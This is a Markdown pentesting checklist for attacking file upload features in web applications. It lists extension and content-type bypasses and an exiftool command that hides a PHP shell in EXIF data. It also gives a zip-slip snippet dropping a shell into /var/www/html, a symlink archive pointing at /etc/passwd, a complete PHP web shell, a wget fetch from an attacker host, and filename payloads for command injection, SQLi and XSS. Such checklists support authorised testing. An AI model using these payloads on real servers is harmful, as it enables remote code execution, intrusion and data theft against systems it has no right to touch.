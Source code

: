 # 🗂️ File Upload - Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ While testing for file upload vulnerabilities, I realistically expect to:

- [ ] Upload a webshell or executable script for RCE
- [ ] Bypass extension and content-type restrictions
- [ ] Abuse alternate extensions, encodings, or null bytes
- [ ] Poison metadata (e.g. EXIF) to hide payloads
- [ ] Exploit upload location for path traversal, SSRF, XSS, XXE, or DoS
- [ ] Trigger backend decompression to escape upload directories
- [ ] Achieve execution via `.htaccess`, `.phar`, `.phtml`, `.php5`, etc.

---

## ✅ File Upload Attack Checklist

### 🔍 Extension Bypass

- [ ] Use alternate PHP extensions  
  - `.php`, `.phtml`, `.phps`, `.php5`, `.phar`, `.inc`, `.shtml`

- [ ] Try uppercase and obfuscated versions  
  - `file.PHP`, `file.pHp5`, `file.Phtml`, `file.pHp`, `file.php....`

- [ ] Double extension tricks  
  - `file.jpg.php`, `image.png.phtml`

- [ ] Null byte or encoded tricks  
  - `file.php%00.jpg`, `file.php%20`, `file.php%0a`, `file.php/`

- [ ] Fake extension prepending  
  - `goodfile.png.php`, `pic.jpg.phtml`, `file.asp:.jpg` (NTFS ADS)

- [ ] Long filename to bypass filters  
  - Use 232+ characters and cut `.png` off (e.g. `A…A.php.png`)

---

### 🧪 Content-Type & Magic Number Bypass

- [ ] Use generic Content-Types:
  ```
  Content-Type: application/octet-stream
  Content-Type: text/plain
  Content-Type: image/png
  ```

- [ ] Use EXIF metadata for shell:
  ```bash
  exiftool -Comment='<?php system($_POST["cmd"]); ?>' image.jpg
  ```

- [ ] Inject PNG/JPG magic bytes at file start
  ```
  \x89PNG\r\n\x1a\n
  \xff\xd8\xff (JPG)
  ```

---

### ⚙️ Execution via Upload

- [ ] Look for misconfigurations that auto-execute `.php` even with `.php.jpg`
- [ ] Check for `.htaccess` or `.config` execution tricks
- [ ] Try uploading `.phar` files that may be interpreted as PHP
- [ ] Upload `.svg`, `.html`, or `.js` for stored XSS
- [ ] Upload `.pdf`, `.pptx`, `.xml` for XXE or SSRF
- [ ] Upload `.zip` containing symlinks or nested paths

---

### 🚨 Advanced Tricks

- [ ] Rename uploaded file later if renaming is allowed
- [ ] Combine with LFI to execute uploaded shell
- [ ] Try uploading to overwrite important files (`CON`, `NUL`, etc.)
- [ ] Upload `;sleep 10;` as filename to test for command injection
- [ ] Upload `<svg onload=alert(1)>` to test XSS
- [ ] Try “path traversal” in filename (`../../../etc/passwd`)
- [ ] Use extensions like `.aspx`, `.jsp`, `.cfm`, `.pl` depending on backend

---

### 🛠️ Server Decompression Abuse

- [ ] **Symlink trick:**
  ```bash
  ln -s /etc/passwd link.txt
  zip --symlinks evil.zip link.txt
  ```

- [ ] **Directory traversal inside ZIP:**
  ```python
  z.writestr('../../../../var/www/html/shell.php', '<?php system($_GET["cmd"]); ?>')
  ```

- [ ] **Use evilarc tool:**
  ```bash
  python evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
  ```

---

### 🐚 Web Shell Snippet

```php
<?php
if(isset($_REQUEST['cmd'])){
  system($_REQUEST['cmd']);
}
?>
```

---

### 🔄 wget Filename Truncation

- [ ] Create a long filename to bypass extension checks:
  ```bash
  echo "<?php system(\$_GET['cmd']); ?>" > $(python3 -c 'print("A"*232+".php.gif")')
  python3 -m http.server 80
  wget http://attacker/A...A.php.gif
  ```

---

### 📌 Polyglot File Tricks

- [ ] `.jpg` + `.php` hybrid (e.g., polyglot GIFAR)
- [ ] PNG with shell in IDAT chunk (ImageTragick bypass)
- [ ] File that is both `.zip` and `.php`
- [ ] `.svg` that acts as SSRF, XSS, or XXE vector

---

### 🧨 From File Upload to Other Vulns

- [ ] Filename = `../../../tmp/lol.png` → Path Traversal
- [ ] Filename = `sleep(10)--.jpg` → SQLi
- [ ] Filename = `<svg onload=alert(1)>` → Stored XSS
- [ ] Upload SVG/PDF/XML → XXE, SSRF, CORS bypass
- [ ] Upload `.js` → Service Worker attack
- [ ] Upload EICAR file → Test AV filter

---

### 📊 Magic Header Signatures

- PNG: `\x89PNG\r\n\x1a\n`
- JPG: `\xff\xd8\xff`

More: https://en.wikipedia.org/wiki/List_of_file_signatures

---

### 🔎 Useful Tools

- [Upload Scanner - Burp](https://github.com/portswigger/upload-scanner)
- [PayloadsAllTheThings – Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20insecure%20files)
- [fuxploider](https://github.com/almandin/fuxploider)

---

## 🧠 Top Things to Try by File Type

| File Type | Potential Impact                      |
|-----------|----------------------------------------|
| `.php`    | Webshell, RCE                         |
| `.svg`    | Stored XSS, XXE, SSRF                 |
| `.gif`    | Stored XSS, SSRF                      |
| `.csv`    | CSV Injection                         |
| `.xml`    | XXE                                   |
| `.avi`    | LFI, SSRF                             |
| `.html`   | XSS, Open Redirect                    |
| `.zip`    | LFI via traversal, DoS                |
| `.pdf`    | Blind XXE, SSRF                       |

---

